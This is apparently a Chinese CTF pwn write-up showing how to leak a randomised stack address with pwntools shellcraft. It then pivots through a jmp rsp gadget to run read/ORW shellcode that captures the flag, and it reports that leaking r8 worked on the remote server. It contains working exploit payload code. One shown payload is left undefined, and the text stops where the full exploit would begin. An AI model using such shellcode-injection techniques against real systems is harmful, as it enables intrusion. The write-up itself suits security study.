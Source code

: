 

但显然我忘记了一个重要的事情，那就是栈地址随机化。  
栈的地址不一定是0x7ffffffde000，最初我想到的做法是爆破，由于低三位地址和高三位地址都是可知的（最低三位000就好了，最高三位固定7ff），只需要爆破6位，但我想到了一个更好的办法：  
不如我们先把栈地址用汇编语句泄露出来，然后再返回到vulnerable之后再进行这个操作怎样呢？我觉得可行。  
由此我在本地gdb了过后发现有几个能够泄露栈地址的寄存器：![NSSIMAGE](https://www.nssctf.cn/files/2023/4/17/feb69eceb8.jpg)  
也就是说，rbx和r13都是可以的，用shellcraft也很好写：

```
payload=asm(shellcraft.write(1,'rbx',0x10))
payload+=asm("mov rbx,0x40091D;jmp rbx")

payload=payload.ljust(0x28,b'\x00')

jmp_rsp=0x40094E
payload+=p64(jmp_rsp)
payload+=asm("sub rsp,48;jmp rsp")
payload=payload.ljust(0x40,b'\x00')

io.recvuntil('your door\n')
io.send(payload)
stack=u64(io.recv(6).ljust(8,b'\x00'))
print('stack:',hex(stack))
```

 

以上可以泄露出栈地址了，之后在基本影响不到关键控制字段的位置写进去ORW就好了

```
io.recvuntil('your door')

aim=stack-0x200

payload1=asm(shellcraft.read(0,aim,0x50))
payload1+=asm("jmp rsi")
payload1=payload1.ljust(0x28,b'\x00')
print('len:',hex(len(payload1)))
payload1+=p64(jmp_rsp)
payload1+=asm("sub rsp,48;jmp rsp")
payload1=payload1.ljust(0x40,b'\x00')

io.send(payload1)

io.send(payload2)

io.interactive()
```



ok本地flag成功取得。  
但之后可是麻烦大了，最绝望的莫过于无法调试的异地一直EOF。  
通过我上面输出的stack我可以发现，寄存器在异地的存储内容是不同的，所以我推测可以尝试输出所有寄存器试试。  
于是我从rbx rcx r13 r12 rax rbp rsp（rdi和rdx会直接python报错EOF）最后发现r8是可以的。  
直接取得flag了。  
完整exp：
